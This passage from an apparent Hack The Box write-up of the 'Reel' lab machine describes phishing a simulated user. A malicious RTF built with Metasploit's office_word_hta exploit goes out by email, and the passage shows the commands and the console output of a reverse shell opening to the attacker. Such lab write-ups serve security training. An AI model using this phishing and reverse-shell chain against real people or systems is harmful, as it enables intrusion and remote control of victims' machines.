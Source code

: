As you can see, what it does is simply crafting and e-mail with subject "Greetings", from "hey@megabank.com", to "nico@megabank.com", some stupid text and the malicious file attached to it (specified when calling the script), and then it connects to Reel and tries to use the SMTP server to send it. What do we have to loose?

```
# cp /root/.msf4/local/msf.doc .
# python send_mail.py msf.doc

Sent!
```

And now we just wait...

And wait...

Nothing. Damn it!

### Double check your payloads

I have to admit I lost *a lot* of time here. I thought that maybe the Word version used by nico wasn't vulnerable to this exploit. I considered trying to exploit one of the other services of the box. I tried to send the document manually connecting to the SMTP to no avail. I tried to rename the document to `msf.rtf` just in case nico only opened files with the RTF extension. Nothing. I was lost in the darkness.

But then I realized a little something. I stopped the web server used by Metasploit, copied the malicious document to another directory and listened there on the same port with `SimpleHTTPServer`. And after sending the e-mail again, I saw the HTA document was actually being requested! So, the problem was the HTA file itself, i.e. the payload... The payload I used when generating the document was `windows/x64/shell/reverse_tcp`. For some reason (probably other failures in previous boxes) I assumed the machine was 64 bits. But that's a big assumption to make, specially with 0 data supporting it. I changed the payload to `windows/shell/reverse_tcp`, repeated the process, closed my eyes and wait.


```
msf exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 10.10.12.157:443
[+] msf.rtf stored at /root/.msf4/local/msf.rtf
[*] Using URL: http://10.10.12.157:80/default.hta
[*] Server started.

# cp /root/.msf4/local/msf.rtf .
# python send_mail.py msf.rtf
Sent!

[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.77
[*] Command shell session 1 opened (10.10.12.157:443 -> 10.10.10.77:49954) at 2018-11-07 11:49:01 +0100

```


[1]: https://stackoverflow.com/questions/21741803/powershell-securestring-encrypt-decrypt-to-plain-text-not-working
[2]: https://stackoverflow.com/questions/18747942/how-to-use-a-powerhsell-serialized-object
[3]: https://github.com/BloodHoundAD/Bloodhound/wiki
[4]: https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEFCON-24-Robbins-Vazarkar-Schroeder-Six-Degrees-of-Domain-Admin.pdf
[5]: https://github.com/BloodHoundAD/BloodHound/wiki/Data-Collector
[6]: https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf
[7]: https://github.com/PowerShellMafia/PowerSploit.git
[8]: https://www.hackthebox.eu/home/users/profile/1190